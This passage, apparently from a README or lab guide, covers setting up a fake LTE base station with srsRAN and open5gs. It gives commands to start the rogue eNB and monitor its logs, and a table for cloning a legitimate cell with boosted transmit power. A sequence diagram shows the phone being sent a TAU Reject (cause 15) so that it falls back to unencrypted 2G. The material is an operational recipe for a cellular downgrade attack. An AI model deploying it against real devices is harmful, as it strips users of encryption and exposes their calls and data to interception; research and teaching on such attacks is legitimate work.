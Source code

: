 #### Terminal 2: Start FBS eNB
```bash
sudo srsenb /root/.config/srsran/fbs_enb.conf
```

### 4. Monitor Attack
```bash
# Monitor FBS eNB logs
tail -f /tmp/fbs_enb.log

# Monitor FBS MME logs
tail -f /var/log/open5gs/fbs_mme.log
```

## Parameter Adjustment Template

### If your legitimate setup differs:

| Parameter | Your Legitimate Value | FBS Formula |
|-----------|----------------------|-------------|
| MCC | [your_mcc] | SAME |
| MNC | [your_mnc] | SAME |
| TAC | [your_tac] | 0x9999 |
| EARFCN | [your_earfcn] | SAME |
| TX Gain | [your_tx_gain] | [your_tx_gain] + 15 |
| Cell ID | [your_cell_id] | DIFFERENT |
| PCI | [your_pci] | UNUSED VALUE |

## Attack Flow Diagram

```mermaid
sequenceDiagram
    participant UE
    participant FBS
    participant LBS as Legitimate BS

    Note over UE,LBS: Initial State: UE connected to legitimate 4G
    rect rgb(255, 200, 200)
        FBS->>UE: Broadcast (Stronger signal, TAC=0x9999)
        UE->>FBS: Attach Request
        FBS->>UE: TAU Reject (cause 15)
        Note over UE: UE searches alternative networks
        UE->>UE: Search 3G (fails)
        UE->>UE: Search 2G (finds network)
        UE->>LBS: Connect 2G (A5/0 cipher)
    end

    Note over UE,LBS: Result: UE downgraded to insecure 2G
```
